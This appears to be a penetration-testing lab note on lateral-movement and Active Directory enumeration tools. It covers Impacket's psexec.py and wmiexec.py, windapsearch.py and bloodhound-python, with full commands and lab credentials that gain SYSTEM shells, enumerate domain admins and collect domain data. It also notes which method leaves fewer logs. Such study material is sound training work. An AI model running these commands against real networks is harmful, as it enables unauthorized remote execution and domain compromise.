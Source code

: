 ```yaml
---
description: The coolest toolkit in the world
---
```


# Impacket Toolkit

## Introduction

* Impacket provides us with many different ways to enumerate, interact, and exploit Windows protocols and find the information we need using Python
* This tool is well maintained and has many contributors

## psexec.py

* This is <mark style="color:yellow;">one of the most useful tools</mark>
* This is a <mark style="color:yellow;">clone of the Sysinternals psexece executable</mark> but works slightly different
* <mark style="color:yellow;">The tool works by creating a remote service by uploading a randomly-named executable to the ADMIN$ share on the host</mark>
* It then registers the service via RPC
* <mark style="color:yellow;">Once established, communication occurs over a pipe, allowing for an interactive shell as SYSTEM on the victim</mark>

```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## wmiexec.py

* wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation or WMI
* It does not drop any files or executables on the target host and generates fewer logs than other modules
* Once connected, it will run the local admin user we connected with&#x20;
  * This is good because it is must stealthier than seeing SYSTEM executing commands

```
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

<figure><img src="../../.gitbook/assets/image (1) (7) (1).png" alt=""><figcaption></figcaption></figure>

## Windapsearch.py

* This is a tool that can be used to enumerate users, groups, and computers from a Windows admin by utilizing LDAP queries

### Domain Admins

Enumerate all Domain Admins:

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

### Privileged Users

Enumerate all privileged users:

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

## BloodHound.py

Similar to the <mark style="color:yellow;">BloodHound and SharpHound duo</mark>, this is an <mark style="color:yellow;">all-in-one package</mark> that <mark style="color:yellow;">allows a remote attacker with valid domain credentials to be able to enumerate the entire AD domain</mark>!

Help:

```
bloodhound-python -h
```

Collection Method "all":

```
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```

<figure><img src="../../.gitbook/assets/image (8) (6).png" alt=""><figcaption></figcaption></figure>

* After the command completes, you will see four .json files

<figure><img src="../../.gitbook/assets/image (5) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

* We need to upload these into BloodHound, but the easiest way is to zip them and just place one zip file in BloodHound

```
zip -r domain_BH_info.zip *.json
```

* This will zip up all of the .json files and we can upload this data into BloodHound!

